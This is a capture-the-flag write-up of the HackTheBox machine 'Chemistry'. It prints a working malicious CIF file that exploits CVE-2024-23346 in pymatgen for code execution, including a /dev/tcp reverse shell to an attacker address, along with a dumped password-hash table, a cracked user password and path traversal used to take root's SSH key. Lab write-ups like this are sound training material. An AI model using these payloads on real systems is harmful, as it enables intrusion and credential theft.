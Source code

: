 ```yaml
---
layout: post
title: "Chemistry"
date: 2024-12-28
author: cotes
categories: [Writeup, HackTheBox]
tags: [HTB, Writeup, Security]
pin: true
math: true
mermaid: true
image:
  path: /assets/img/commons/hackthebox.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hackthebox Image
---
```



```bash
sudo nmap -sC -sV -T4 -p- -oN nmap 10.129.248.106
```

![[Pasted image 20241020022405.png]]

only port 5000 is open 

the website allow us to upload a CIF file 

![[Pasted image 20241020022634.png]]


after a little bit of googling I found that the CIF file is a files used in some kind of chemistry stuff , I potential library (pymatgen) that can be used in  this kind of stuff .

this library suffer from  #CVE-2024-23346 

https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f

I change the payload of  the file with this 

```
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("ping -c 1 10.10.14.132");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```


after trying to view the file 

![[Pasted image 20241020053514.png]]


getting shell

```
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i &>/dev/tcp/10.10.14.132/1337 <&1\'");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```


![[Pasted image 20241020054408.png]]


I just enumerate the `/home/app` a little bit , and I found an interesting file 
`database.db`

```bash
strings /home/app/instance/database.db

strings /home/app/instance/database.db
SQLite format 3
ytableuseruser
CREATE TABLE user (
        id INTEGER NOT NULL,
        username VARCHAR(150) NOT NULL,
        password VARCHAR(150) NOT NULL,
        PRIMARY KEY (id),
        UNIQUE (username)
indexsqlite_autoindex_user_1user
5tablestructurestructure
CREATE TABLE structure (
        id INTEGER NOT NULL,
        user_id INTEGER NOT NULL,
        filename VARCHAR(150) NOT NULL,
        identifier VARCHAR(100) NOT NULL,
        PRIMARY KEY (id),
        FOREIGN KEY(user_id) REFERENCES user (id),
        UNIQUE (identifier)
indexsqlite_autoindex_structure_1structure
check.cifdcfb4e48-76c1-443b-87a3-21d3d9cb707c3
check.cif7f11548a-b442-4b6f-b380-b92e64dbf21c3
check.cif76578519-aed6-4eb1-b920-16f39e12f2a63
check.cifc70e34f5-26db-4d4f-bc9b-d49b420791643	
check.cif178ff1bf-0ba5-43fe-8e62-87f8a1d2bdaf3
check.cif6a2e39a0-c66c-4114-a4c7-5bce40afe1aa3
shell.cifb3d6de33-c4c3-4b14-b9b9-6a27e2875c073
shell.cif13487916-50e2-4f5c-adec-a3fae1c9e85f1
rce.cif91ba68f0-6258-423a-990a-8320aa5e18481
rce.ciffeed5fc0-cb23-47e1-8fb5-42a93dfb97dd1
rce.ciffd75b664-b324-41c4-b890-abf84ed7756f5
example.cife63baf83-a7df-49b2-969e-521cb945ab6d5
example.cifa3eac938-17c2-48c0-a408-9929c659aa47
dcfb4e48-76c1-443b-87a3-21d3d9cb707c
7f11548a-b442-4b6f-b380-b92e64dbf21c
76578519-aed6-4eb1-b920-16f39e12f2a6
c70e34f5-26db-4d4f-bc9b-d49b42079164
178ff1bf-0ba5-43fe-8e62-87f8a1d2bdaf	(
6a2e39a0-c66c-4114-a4c7-5bce40afe1aa
b3d6de33-c4c3-4b14-b9b9-6a27e2875c07
13487916-50e2-4f5c-adec-a3fae1c9e85f
91ba68f0-6258-423a-990a-8320aa5e1848
feed5fc0-cb23-47e1-8fb5-42a93dfb97dd
fd75b664-b324-41c4-b890-abf84ed7756f
e63baf83-a7df-49b2-969e-521cb945ab6d
U	a3eac938-17c2-48c0-a408-9929c659aa47
Md0s3nta386e70db5d043ce7584bb27512f3114+
Mkristel6896ba7b11a62cacffbdaded457c6d92(
Maxel9347f9724ca083b17e39555c36fd9007*
Mfabian4e5d71f53fdd2eabdbabb233113b5dc0+
Mgelacia4af70c80b68267012ecdac9a7e916d18+
Meusebio6cad48078d0241cca9a7b322ecd073b3)	
Mtaniaa4aa55e816205dc0389591c9f82f43bb,
Mvictoriac3601ad2286a4293868ec2a4bc606ba3)
Mpeter6845c17d298d95aa942127bdad2ceb9b*
Mcarlos9ad48828b0955513f7cf0f7f6510c8f8*
Mjobert3dec299e06f7ed187bac06bd3b670ab2*
Mrobert02fcf7cfc10adc37959fb21f06c6b467(
Mrosa63ed86ee9f624c7b14f1d4f43dc251a5'
Mapp197865e46b878d9e74a0346b6d59886a)
Madmin2861debaf8d99436a10ed6f75a252abf
d0s3nt
kristel
axel
fabian
gelacia
eusebio
tania	
victoria
peter
carlos
jobert
robert
rosa
	admin
```

file contain different hashes , I tried to crack rosa hash since , she's user in the machine

![[Pasted image 20241020054726.png]]

`rosa:unicorniosrosados`

![[Pasted image 20241020054820.png]]

## root

for the root , I found an internal webapp 

```bash
 netstat -ntlp
```

![[Pasted image 20241020055021.png]]

forward it to port 8081 on my own machine
```bash
ssh -L 8081:127.0.0.1:8080  rosa@10.129.17.243
```

![[Pasted image 20241020055115.png]]

![[Pasted image 20241020055223.png]]


after wasting a lot of time , checking crontabs

the app is vulnerable to path traversing on `/assets`

![[Pasted image 20241020055505.png]]


![[Pasted image 20241020055605.png]]


just copy the ssh key to  file 

```bash
chmod 600 root_key
ssh root@10.129.17.243 -i root.key
```

![[Pasted image 20241020055804.png]]